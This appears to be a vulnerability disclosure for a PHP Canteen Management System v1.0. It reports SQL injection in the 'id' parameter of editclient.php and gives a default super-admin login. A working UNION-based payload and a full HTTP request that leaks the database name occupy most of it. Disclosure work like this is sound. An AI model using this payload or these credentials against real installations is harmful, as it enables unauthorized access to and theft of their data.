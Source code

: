 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: songyangqi

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/editclient.php

Vulnerability location: /youthappam/editclient.php, id

dbname =youthappam,length=10

[+] Payload: /youthappam/editclient.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /youthappam/editclient.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195263234-6a99be2b-fda0-4533-8bd5-4a7943c0d7ec.png)
